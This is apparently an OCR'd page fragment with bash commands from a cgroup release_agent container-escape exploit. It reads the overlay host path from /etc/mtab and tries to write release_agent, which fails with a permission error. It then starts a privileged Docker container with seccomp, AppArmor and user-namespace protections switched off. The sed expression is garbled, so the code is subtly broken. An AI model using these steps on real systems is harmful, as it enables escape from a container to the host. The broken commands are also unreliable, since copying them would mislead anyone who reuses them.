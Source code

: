 ```bash
$ echo 1 > xx/notify_on_release
$ host_path=`sed -n 's/.*\perdir=\(^,]*\).*/\1/p' /etc/mtab`
$ echo $host_path
/var/lib/docker/overlay2/8d77b2c11644cfbef9f927a33a553758dd381824ef88ac83672f755190268d24/diff

$ echo "$host_path/cmd" > release_agent 
bash: echo: write error: Operation not permitted
```

```bash
$ docker run --rm -it --security-opt seccomp=unconfined --security-opt apparmor=unconfined --cap-add=SYS_ADMIN --userns=host --privileged ubuntu bash
```
